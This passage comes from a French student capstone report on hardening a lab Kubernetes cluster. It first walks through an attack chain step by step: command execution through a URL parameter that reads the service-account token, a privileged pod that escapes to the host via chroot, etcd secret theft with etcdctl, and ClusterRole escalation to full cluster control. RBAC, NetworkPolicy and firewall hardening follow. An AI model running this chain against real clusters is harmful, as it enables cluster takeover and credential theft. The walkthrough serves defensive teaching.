                export KUBECONFIG=kubeconfig

                kubectl port-forward snyky 5001 -n deploy

            

            Avec ces tunnels en place, tout trafic TCP se connectant à notre machine locale sur le port 5001 sera transféré au pod snyky sur le port 5001. Ensuite, le processus socat transmettra ce trafic du pod snyky au service mystère sur le port 5000.

            Ouvrons http://localhost:5001 dans notre navigateur...

            

            On peut constater qaue c'est la même application s'y exécute. Ce qui nous interresse, c'est l'url cachee dans l'application.

            

            Voyons si cette copie de l'application présente la vulnérabilité RCE en recherchant son jeton : http://localhost:5001/seckube?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token

            

            Oui, c'est le cas et nous avons maintenant un autre jeton que nous pouvons expérimenter. Nous pouvons maintenant fermer le port-forward, tuer le processus socat et quitter la session exec du pod snyky, car nous n'en n'aurons plus besoin.

            Ouvrons le fichier kubeconfig dans un éditeur, commentons le token existant et insérons une nouvelle ligne avec le nouveau token dans notre navigateur.

            

            Avec ce nouveau jeton en place, essayons à nouveau de lister les pods dans le namespace par defaut : 
            
                kubectl get pods

            

            Il semble qu'il y ait une copie de l'application dans le namespace par défaut et, par conséquent, nous avons maintenant un jeton ServiceAccount par défaut à notre disposition.

            Nous devrions voir quelles permissions ce nouveau jeton nous donne avec : 
            
                kubectl auth can-i --list
            
            

            Nous avons un accès complet à toutes les ressources (*.*) du namespace par défaut ! Cela arrive plus souvent qu'on ne le pense car la plupart des développeurs n'écrivent des restrictions RBAC que pour les ressources des Namespaces dans lesquels leurs applications vivent, laissant la valeur par défaut à quelqu'un d'autre. Malheureusement, pour ce cluster, le RBAC par défaut pour le ServiceAccount par défaut est grand ouvert !

            Nous pouvons maintenant essayer de déployer un pod dans le namespace par défaut ; essayons à nouveau ce pod privilégié et voyons s'il fonctionne. Son contenu est le suivant :

             
            
                kubectl apply -f nonroot_priv.yaml
            
            

            Cela a fonctionné, ce qui indique que les restrictions de PSA dans le namespace par défaut sont assouplies ou inexistantes.

            Executons ce pod et voyons ce que nous pouvons faire : 
            
                kubectl exec -it nonroot-priv -- bash
            
            

            Tout se passe bien jusqu'à présent, mais si nous regardons le manifeste de ce pod, nous constatons qu'on monte un volume hôte sur le chemin **/chroot** (section en encadree en rouge dans le manifeste).

            Executons la commande **chroot /chroot** dans le conteneur et voyons ce que nous obtenons.

            

            Il s'agit des processus en cours d'exécution sur l'hôte qui execute le pod. Nous avons effectivement échappé à ce conteneur en montant le volume hôte / dans le conteneur et en le **chroot**ant.

            **g- Posséder le cluster**

            Maintenant que nous avons le système de fichiers de l'hôte sur le pod, nous avons accès à beaucoup plus d'informations. Ce qui est particulièrement intéressant pour nos objectifs est le jeton du kubelet qui a des permissions beaucoup plus larges que les jetons ServiceAccount que nous avons utilisés jusqu'à présent.

            Dans le shell de l'étape précédente - toujours en tant que root et avec le système de fichiers de l'hôte monté - nous allons récupérer le contexte du kubelet et l'utiliser pour regarder dans le namespace **kube-system** et lister les nœuds de ce cluster.

            Commandes que nous allons exécuter :

            - **export KUBECONFIG=/etc/kubernetes/kubelet.conf** : Ce fichier contient le jeton du kubelet.
            - **kubectl get pods -n kube-system** : Liste les pods du namespace **kube-system** dans le **control-plane**
            - **kubectl get nodes** : Liste les noms et les rôles des nœuds qui composent la grappe.

            

            Voyons si nous pouvons lancer un pod directement avec ce jeton. Nous essayons un simple shell busybox :

                kubectl run -it --rm busybox --image=busybox --restart=Never -- sh
            
            

            Cette commande échoue car le token kubelet n'a pas encore toutes les permissions nécessaires pour démarrer via le serveur API. La ligne **mirror pods** est cependant intéressante, car elle nous permettrait de lancer n'importe quel pod directement dans **kube-system** en plaçant un fichier YAML dans **/etc/kubernetes/manifests** sur le nœud. Cela nous donnerait alors de nombreux vecteurs d'attaque contre les autres pods du plan de contrôle dans l'espace de noms kube-system. Nous laisserons cela de côté pour l'instant.

            Etant donné que nous pouvons voir les pods dans l'espace de noms kube-system, notre prochain objectif est de trouver des informations d'identification qui peuvent nous donner un accès de niveau administrateur au plan de contrôle. Essayons de lister les secrets dans l'espace de nom kube-system :

                kubectl get secrets -n kube-system
            
            

            Cela n'a pas fonctionné, mais il y a un autre vecteur d'attaque pour accéder à ces secrets : **etcd**.

            Puisque nous avons échappé à PSA, et que nous savons maintenant quels nœuds nous avons (un **worker nodes**), nous allons lancer un pod sur le nœud hébergeant etcd, et dans la configuration du pod, nous allons monter le système de fichiers de l'hôte pour nous donner les informations d'identification pour nous connecter à etcd.

            A partir de la liste des pods ci-dessus, nous pouvons voir que le serveur **etcd** semble fonctionner en tant que le pod **etcd-master**. Etcd est la persistance de l'état pour le cluster, nous devons y accéder et exfiltrer un jeton d'administration si possible.

            Tout d'abord, nous devons déterminer sur quel noeud tourne le serveur etcd et où sont stockées ses informations d'identification. Ceci sera disponible dans la description du pod :

                kubectl describe pod etcd-master -n kube-system
            
            La réponse contient beaucoup d'informations précieuses, nous allons donc l'examiner par morceaux :

            

            A partir de là, nous voyons qu'il tourne sur le noeud **master**.

            

            Le serveur etcd ecoute sur a l'url suivante: https://192.168.115.10:2379

            

            Les certificats sont sauvegardee a l'adresse : **/etc/kubernetes/pki/etcd**

            Quittons le pod en cours d'execution et appliquons le pod **etcdclient** dont le manifest est le suivant:

            

                kubectl apply -f etcdclient.yaml

            

            Nous pouvons maintenant lancer **etcdctl** en exécutant ce pod pour tester notre connexion au serveur etcd :

                kubectl exec etcdclient -- /usr/local/bin/etcdctl member list
            
            

            C'est une réponse valide, donc nos informations d'identification et nos paramètres fonctionnent, maintenant cherchons quelque chose de plus intéressant.

            Etcd contient de nombreuses informations intéressantes sur le cluster, dont les secrets ne sont pas les moindres. On peut ennumerer ces secrets avec :

                kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets
            
            
            
            La ligne contenant le role **clusterrole-aggregation-controller-token-g56mv** est un rôle dont les droits peuvent être utilisés.

            Obtenons maintenant le contenu du secret nommee clusterrole-aggregation-controller-token-g56mv:

                kubectl exec etcdclient -- /usr/local/bin/etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-g56mv
            
            

            Nous obtenons beaucoup de données de cette requête mais la dernière très longue ligne qui commence par **token�** est ce que nous voulons. Copions tout ce qui suit ce nom de champ (sans saisir le caractère non imprimable à la fin de token�) jusqu'au bout, mais sans inclure la partie **#kubernetes.io/service-account-token** à la fin.

            Voici un exemple de capture d'écran avec la partie en surbrillance que nous souhaitons copier :

            

            Editons notre fichier kubeconfig une fois de plus, en commentant le jeton précédent : ajoutons-en un nouveau avec la chaîne que nous avons copiée.

            

            Voyons quelles sont les autorisations de ce jeton :

                kubectl auth can-i --list
            
            

            Ce n'est pas tout à fait un accès administrateur complet, mais le fait que nous puissions escalader les ClusterRoles signifie que nous n'en sommes qu'à un pas.

            Modifions maintenant les droits du service account **clusterrole-aggregation-controller** afin de donner un acces administrateur complet : 
            
                kubectl edit clusterrole system:controller:clusterrole-aggregation-controller 
            
            

            L'image precedente est le contenu du clusterrole avant modifications.

            

            Sauvegardons et quittons la session d'édition et nous devrions voir ce qui suit :

            

            Vérifions à nouveau les autorisations :

                kubectl auth can-i --list
            
            

            Presentement, nous sommes les proprietaires du cluster. Nous pouvons effectuer toutes les operations que nous souhaitons dans le cluster.

        - #### 3.2.2 Identification des vulnérabilités et des points de faiblesses.
            Les tests de pénétration effectués précédemment ont révélé plusieurs vulnérabilités critiques dans l'architecture initiale de Kubernetes. Ces vulnérabilités exposent l'infrastructure à des attaques potentielles, compromettant la sécurité des applications déployées et des données sensibles. Voici une analyse approfondie des vulnérabilités identifiées :

            **a- Exécution de commandes arbitraires (Remote Code Execution) dans un pod à partir du navigateur**
            
            L'exécution de commandes arbitraires à distance (Remote Code Execution - RCE) est l'une des failles les plus critiques. Dans ce cas, un attaquant peut, via une simple interface navigateur, exécuter des commandes dans un pod sans authentification ou restriction. Cela donne à l'attaquant un accès direct aux ressources du cluster et aux informations sensibles. Cette vulnérabilité est souvent due au fait de l'utilisation d'une image de base non verifiee. L'attaquant pourrait exécuter des scripts malveillants, installer des backdoors, ou manipuler les applications déployées. Cela pourrait entraîner la perte ou le vol de données, voire le contrôle complet du cluster.

            

            **b- L'exposition des services accounts dans les pods**

            Par défaut, Kubernetes associe un service account à chaque pod dans un namespace donné. Si ce service account n'est pas correctement restreint, il peut être utilisé pour accéder à d'autres ressources du cluster avec des privilèges élevés. L'utilisation du service account par défaut est souvent négligée, laissant les pods avec des privilèges non nécessaires ou trop élevés. Cette mauvaise gestion des identités et des permissions expose le cluster à des attaques d'escalade de privilèges. Un attaquant pourrait utiliser le service account pour obtenir des tokens d'accès aux API Kubernetes, permettant l'accès à des secrets, la création ou suppression de ressources, voire le contrôle d'autres parties du cluster.

            

            **c- - L'absence de restrictions de réseau permettant une communication non sécurisée entre les pods**

            Dans l'architecture actuelle, il n'existe pas de restrictions de communication réseau entre les pods. Cela signifie que tous les pods peuvent librement communiquer entre eux, ce qui augmente le risque de propagation d'attaques internes. Par défaut, Kubernetes permet à tous les pods d'un cluster de communiquer entre eux sans restrictions. Sans l'implémentation de **Network Policies**, il n'y a pas de contrôle granulaire sur les communications entre les pods. Un attaquant ayant compromis un seul pod pourrait facilement se déplacer dans le réseau interne et attaquer d'autres pods, escaladant potentiellement ses privilèges ou compromettant davantage de ressources.

            

            **d- L'accès non autorisé à certains services**

            Certains services critiques du cluster sont exposés sans authentification ni autorisation. Cela inclut potentiellement l'accès à des bases de données, des API, ou d'autres services internes. Cette vulnérabilité est souvent due à une mauvaise configuration des accès API ou à l'absence de restrictions RBAC (Role-Based Access Control) pour contrôler qui peut interagir avec les ressources du cluster. Un accès non autorisé à ces services permettrait à un attaquant de lire, modifier ou détruire des données sensibles, compromettant ainsi l'intégrité et la confidentialité des informations.

            

            **e- L'utilisation de versions obsolètes de Kubernetes**

            Le cluster utilise une version de Kubernetes (v1.23.7) qui présente des vulnérabilités connues, permettant à un attaquant d'exploiter des failles pour accéder à certaines ressources ou contourner des restrictions de sécurité mises à jour dans les versions récentes. Cette utilisation de versions obsoletes est causee par l'absence de mises à jour régulières du cluster Kubernetes et de ses composants critiques. Les versions obsolètes sont particulièrement vulnérables aux attaques connues et aux exploits publiés. L'utilisation de versions obsolètes permettrait à des attaquants d'exploiter des vulnérabilités corrigées dans les versions plus récentes, compromettant ainsi la sécurité globale du cluster.

            

            

            
    - ### Conclusion
        Ce chapitre a décrit le développement et le déploiement de l'architecture non sécurisée, ainsi que les résultats des tests de pénétration initiaux. Ces résultats serviront de référence pour la mise en œuvre des mesures de sécurité décrites dans le prochain chapitre.
 
- ## **CHAPITRE 4 : Sécurisation de l'architecture**
    - ### Introduction
        Ce chapitre se concentre sur la sécurisation de l'architecture Kubernetes initiale en appliquant des mesures de sécurité recommandées.

    - ### 4.1 Planification des fonctionnalités de sécuritee à implémenter dans les sprints
        Pour garantir une approche itérative et progressive de la sécurisation du cluster Kubernetes, nous avons planifié les fonctionnalités de sécurité à implémenter en plusieurs sprints, en suivant la méthodologie Scrum. Les priorités ont été définies en fonction des vulnérabilités critiques identifiées lors des tests de pénétration, et chaque fonctionnalité de sécurité sera associée à des critères d'acceptation clairs pour valider son implémentation.

        - #### 4.1.1 Identification des priorités de sécurité
            Les priorités de sécurité sont basées sur les failles critiques découvertes lors de l'audit de sécurité initial et des tests de pénétration. Ces priorités sont essentielles pour durcir l'architecture Kubernetes contre les attaques externes et internes. Les mesures de sécurité identifiées incluent :
            
            - **Mise à jour de Kubernetes vers la dernière version stable et sécurisée** :
                La mise à jour doit être prioritaire, car elle constitue la base de toute autre mesure de sécurité. Les versions obsolètes contiennent souvent des vulnérabilités critiques.

            - **Implémentation de RBAC (Role-Based Access Control) pour contrôler les accès** :
                Un contrôle d'accès granulaire est fondamental pour protéger le cluster contre les accès non autorisés et limiter les actions des utilisateurs en fonction de leurs besoins.

            - **Configuration des politiques de réseau pour restreindre les communications entre les pods** : 
                Réduire la surface d'attaque en isolant les pods critiques et en autorisant uniquement les communications nécessaires est une mesure essentielle pour empêcher les attaques internes.
            
            - **Sécurisation des données sensibles, telles que les service accounts et les secrets** :
                La sécurisation des secrets et des service accounts est critique, car elle protège les informations d'identification sensibles, comme les tokens d'accès API, les mots de passe, ou les certificats. 
            
            - **Sécurisation de l'API** :
                L'API Kubernetes est l'un des principaux vecteurs d'attaque et doit être sécurisée pour éviter toute compromission du cluster.

            - **Scan complet des images de pods avant leur utilisation** :
                Le scan d'images est indispensable pour éviter l'introduction de logiciels vulnérables dans le cluster via des conteneurs mal sécurisés. Cela protège également contre les failles au niveau de la chaîne d'approvisionnement logicielle (Supply Chain Security).

        - #### 4.1.2 Définition des critères d'acceptation
            Les critères d'acceptation définissent les conditions minimales que chaque fonctionnalité de sécurité doit satisfaire pour être considérée comme correctement implémentée. Chaque critère est aligné sur les priorités de sécurité précédemment identifiées. 
            - **Le fonctionnement de Kubernetes avec la dernière version stable et sécurisée** : 
                Le cluster doit être mis à jour vers la dernière version de Kubernetes sans interruption des services en cours. La version utilisée doit être testée et approuvée pour corriger toutes les vulnérabilités connues.
            
            - **Capacité de restreindre les accès non autorisés (RBAC)** :
                Toutes les actions dans le cluster doivent être soumises à des règles RBAC strictes. Aucun utilisateur ou service ne doit avoir plus de privilèges que nécessaire pour accomplir ses tâches. Les logs d'audit doivent confirmer que seuls les utilisateurs autorisés accèdent aux ressources.

            - **Prévention des communications non sécurisées entre les pods (Network Policies)** : 
                Les Network Policies doivent être en place pour empêcher toute communication non autorisée entre les pods. Les tests de réseau doivent montrer que seuls les pods autorisés peuvent échanger des données entre eux, selon les règles définies.

            - **Protection efficace des données sensibles** : 
                Les secrets, tokens de service accounts, et autres données sensibles doivent être stockés de manière sécurisée et accessibles uniquement aux entités autorisées. Des audits de sécurité doivent prouver que les données sensibles ne sont pas exposées ou vulnérables aux attaques.

            - **Incapacité d'acceder a l'API** : 
                Les requetes API doivent etre restreintes aux adresses IP et utilisateurs autorisés, et toutes les communications avec l'API doivent etre protégées par TLS, avec une authentification forte en place.

            - **Utilisation des images de pods non vulnérables** : 
                Toutes les images déployées dans le cluster doivent avoir passé un scan de sécurité pour garantir qu'elles ne contiennent pas de failles connues. Les images vulnérables doivent être rejetées et remplacées par des versions corrigées.

    - ### 4.2 Application des mesures de sécurité recommandées
        L'application des mesures de sécurité dans un environnement Kubernetes est une étape critique pour protéger le cluster contre les menaces externes et internes. Cette section détaille les différentes étapes de la mise en œuvre des recommandations de sécurité identifiées, qui incluent la mise à jour du cluster, la configuration des contrôles d'accès (RBAC), la sécurisation des communications réseau, la gestion des secrets, la sécurité des pods, et la protection de l'API Kubernetes.

        - #### 4.2.1 Configuration des fonctionnalités de sécurité
            Pour protéger le cluster Kubernetes contre les attaques, plusieurs fonctionnalités et configurations de sécurité doivent être mis en place. Ces configurations sont essentielles pour restreindre les accès, sécuriser les communications, et garantir la bonne gestion des ressources sensibles. 
            
            - **Mise à jour de Kubernetes vers la dernière version stable et sécurisée**
            
                En suivant les etapes recommandees sur le site officiel de Kubernetes, nous avons mis a jour le cluster vers la dernier version de kubernetes stable et securisee.

                Lien officiel pour mettre a jour un cluster Kubernetes:
                https://kubernetes.io/docs/tasks/administer-cluster/kubeadm/kubeadm-upgrade/

                Ces etapes permettant la mise a jour du control plane et des workers nodes separement, incluent la migration de docker a containerd pour la gestion des containers, la mise a jour de kubeadm pour gerer le cluster, de kubectl pour interagir avec l'api kubernetes, ainsi que du kubelet pour assurer les communications entre les workers nodes et le control plane.

                

                
                a - g

            - **Mise en place de Network Policies pour restreindre les communications entre les pods**

                Lors du test de penetration, nous avons pu utiliser l'outil NMAP pour scanner le reseau de pod depuis un autre pod. 

                Pour empêcher toute communication réseau entre les pods des namespaces default et deploy, nous utilisons les **NetworkPolicy**. Ces politiques nous permettent de définir les règles de communication réseau au niveau des namespaces et des pods dans Kubernetes.

                Pour ce faire, en se basans sur le site officiel de Kubernetes, nous configurons deux **NetworkPolicy** que nous appliquons dans les namespaces (default et deploy) afin de bloquer toute communication entrante et sortante entre les pods des deux namespaces.

                https://kubernetes.io/docs/concepts/services-networking/network-policies/

                La configuration YAML du Networkpolicy du namespace par defaut est la suivante :

                

                Nous l'appliquons a l'aide de la commande suivante :

                    kubectl apply -f network_default.yaml
                
                
                
                La configuration YAML du Networkpolicy du namespace deploy est la suivante :

                

                NB: La regle qui apparait dans ce networkpolicy permet uniquement de laisser passer tout traffic venant des services kubernetes, comme c'est le cas avec le service qui permet l'acces a notre application.

                

                Nous l'appliquons a l'aide de la commande suivante :

                    kubectl apply -f network_deploy.yaml
                
                

                Si l'on souhaite ajouter d'autres autorisations reseaux, il est necessaire de modifier les fichiers YAML afin d'ajouter les regles dont on a besoin.

                
                a - e

            - **Implémentation de RBAC (Role-Based Access Control), et securisation des services account dans les pods**

                Lors de la phase de test de penetration, nous avons constatee que, a partir d'un service account vulnerable, un attanquant pouvait effectuer des actions de lecture et de modification dans le cluster.

                Ces actions etaient possibles, car des autorisations avec des privileges elevees avaient ete donne aux differents services accounts des namespaces default de deploy.

                Pour palier a ces problemes, nous allons tout d'abord suprimmer tous les roles et rolebindings qui ont ete prealablement defini, et par la suite nous creerons de nouveaux roles strictes que nous implementerons pour chaque service account du cluster, afin d'empecher ces derniers d'effectuer des actions non souhaitee.

                La liste des elements a supprimer est la suivante :

                

                Nous les supprimons comme suit :

                

                Etant donne que nous travaillons dans le namespace par defaut et le namespace deploy, la liste des service accounts dans ces deux namespace est la suivante:

                

                Le role permettant de restreindre les permissions du service account par defaut **default** est le suivant: 

                

                Nous pouvons l'appliquer avec les commandes suivantes:

                    kubectl apply -f rbac_default.yaml

                    kubectl apply -f rbac_default.yaml -n deploy
                
                

                Le role permettant de restreindre les permissions du service account **wordpress** est le suivant: 

                

                Nous pouvons l'appliquer avec les commandes suivantes:

                    kubectl apply -f rbac_wordpress.yaml

                    kubectl apply -f rbac_wordpress.yaml -n deploy
                
                

                
                a - c(d)

                La plupart des applications ne font pas d'appels à l'API Kubernetes, donc le comportement par défaut qui consiste à monter automatiquement le jeton ServiceAccount dans le système de fichiers de chaque Pod est au mieux problématique. Corrigeons cela en définissant explicitement **automountServiceAccountToken : false** à chaque fois que nous créons un ServiceAccount.

                Puisque dans notre cas les service account ont deja ete cree, nous allons juste les editer pendant leur execution, et appliquer le parametre precedent.

                La liste des service accounts a editer est la suivante :

                

                Dans le namespace par defaut, modifions les services account comme suit:

                    kubectl edit serviceaccount default
                
                

                    kubectl edit serviceaccount wordpress
                
                

                Dans le namespace deploy, modifions les services account comme suit:

                    kubectl edit serviceaccount default -n deploy

                               

                    kubectl edit serviceaccount wordpress -n deploy

                

                
                a - b

            - **Sécurisation de l'API Kubernetes**

            Pour restreindre l’accès à l’API Kubernetes, nous utilisons un pare-feu, car il est tres important de contrôler les connexions vers le port de l’API server (par défaut, 6443 sur le master Kubernetes). Voici comment nous pouvons configurer notre pare-feu est basé sur firewalld.

            Une fois que le paquet firewalld est installee, nous devons définir les adresses IP ou plages d’IP autorisées à accéder à l’API Kubernetes, ainsi que le port sur lequel le trafic sera autorisee.

            Les commandes suivantes permettens d'autoriser l'adresse IP de la machine master uniquement, ainsi que le port 6443.

                sudo firewall-cmd --zone=trusted --add-port=6443/tcp --permanent

                sudo firewall-cmd --zone=trusted --add-source=192.168.115.10 --permanent

                sudo firewall-cmd --reload
            
            

            
            

            - **Scan de l'image de pod**

        - #### 4.2.2 Mise en place de la surveillance et de l'audit
            La surveillance et l’audit sont essentiels pour garantir une visibilité en temps réel des événements qui se produisent dans le cluster. Une surveillance proactive permet de détecter et de réagir rapidement aux comportements anormaux et aux tentatives d'attaque. Cela inclut :
            - L'intégration de Prometheus pour la surveillance des performances.
            - L'utilisation de Fluentd pour la gestion des logs et l'audit.

    - ### Conclusion
        Ce chapitre a détaillé les mesures de sécurité mises en place pour renforcer l'architecture Kubernetes initiale. Ces mesures devraient améliorer considérablement la sécurité de l'environnement.

- ## **CHAPITRE 5 : Tests et évaluation**
    - ### Introduction
        Dans ce chapitre, nous allons évaluer l'efficacité des mesures de sécurité mises en place en effectuant des tests et en comparant les résultats avant et après sécurisation.

    - ### 5.1 Évaluation de la sécurité de l'architecture sécurisée mise en place
        - #### 5.1.1 Méthodologie des tests de sécurité
            La méthodologie des tests de sécurité implique la réalisation de tests de pénétration similaires à ceux effectués sur l'architecture non sécurisée. Cela inclut :
            - Des tests d'accès non autorisé.
            - Des tentatives d'exécution de commandes arbitraires.
            - Des simulations d'attaques DDoS.

        - #### 5.1.2 Résultats des tests de pénétration
            Les tests de pénétration ont montré une amélioration significative de la sécurité. Par exemple :
            - Les tentatives d'accès non autorisé ont été bloquées par RBAC.
            - Les communications non sécurisées entre les pods ont été restreintes par les politiques de réseau.
            - Les données sensibles ont été protégées efficacement par Kubernetes Secrets.

    - ### 5.2 Comparaison des résultats avant et après sécurisation
        - #### 5.2.1 Analyse comparative des vulnérabilités
            L'analyse comparative des vulnérabilités a révélé que les mesures de sécurité mises en place ont réduit de manière significative les risques. Les vulnérabilités identifiées dans l'architecture initiale ont été corrigées, et l'environnement est maintenant mieux protégé contre les attaques courantes.

        - #### 5.2.2 Mesure de la performance et de l'efficacité des mesures de sécurité
            La performance et l'efficacité des mesures de sécurité ont été mesurées en termes de réduction des vulnérabilités et d'amélioration de la résilience aux attaques. Les résultats montrent une amélioration notable de la sécurité globale de l'architecture Kubernetes.

    - ### 5.3 Résultats et discussion
        - #### 5.3.1 Présentation des résultats obtenus
            Les résultats obtenus montrent que les mesures de sécurité mises en place ont été efficaces pour renforcer la sécurité de l'architecture Kubernetes. Les tests de pénétration ont confirmé la réduction des vulnérabilités et l'amélioration de la protection des données.

        - #### 5.3.2 Analyse des forces et des faiblesses de l'approche adoptée
            L'approche adoptée présente plusieurs forces, notamment l'utilisation de RBAC, des politiques de réseau, et des Kubernetes Secrets. Cependant, certaines faiblesses subsistent, telles que la complexité de la gestion des politiques de réseau et la nécessité de mises à jour régulières des outils de sécurité.

        - #### 5.3.3 Discussion sur les leçons apprises et les recommandations pour l'avenir
            Les leçons apprises incluent l'importance de la planification et de l'évaluation continues des mesures de sécurité. Les recommandations pour l'avenir incluent :
            - La mise en place d'un processus continu de surveillance et d'audit.
            - L'adoption de nouvelles technologies de sécurité à mesure qu'elles deviennent disponibles.
            - La formation continue des équipes sur les meilleures pratiques en matière de sécurité Kubernetes.

    - ### Conclusion
        Ce chapitre a présenté les tests et l'évaluation de l'architecture sécurisée, montrant une amélioration significative par rapport à l'architecture initiale. Les résultats confirment l'efficacité des mesures de sécurité mises en place.

 
- ## **CONCLUSION GÉNÉRALE**
    Ce rapport a détaillé le projet de renforcement de la sécurité d'une architecture Kubernetes, en utilisant une méthodologie Scrum pour structurer le travail. À travers une série de tests et d'évaluations, nous avons démontré l'efficacité des mesures de sécurité mises en place. Les principaux résultats montrent une amélioration significative de la sécurité, avec une réduction notable des vulnérabilités et une meilleure protection des données et des applications. Ce projet souligne l'importance de la sécurité dans les environnements Kubernetes et propose des recommandations pour les futures améliorations. Nous espérons que ce rapport contribuera à une meilleure compréhension des défis de sécurité dans les environnements Kubernetes et servira de guide pour les professionnels cherchant à renforcer la sécurité de leurs déploiements.

- ## **BIBLIOGRAPHIE**

- ## **RÉSUMÉ**
    Ce projet de fin d'études vise à renforcer la sécurité d'une architecture Kubernetes en appliquant des mesures spécifiques et en évaluant leur efficacité. La méthodologie Scrum a été utilisée pour structurer le travail, et les résultats montrent une amélioration significative de la sécurité globale. Ce rapport présente les détails du projet, y compris le contexte, les objectifs, la mise en œuvre, et les résultats des tests de sécurité.

- ## **ABSTRACT**
    This final project aims to enhance the security of a Kubernetes architecture by implementing specific measures and evaluating their effectiveness. The Scrum methodology was used to structure the work, and the results show a significant improvement in overall security. This report details the project, including the context, objectives, implementation, and security test results.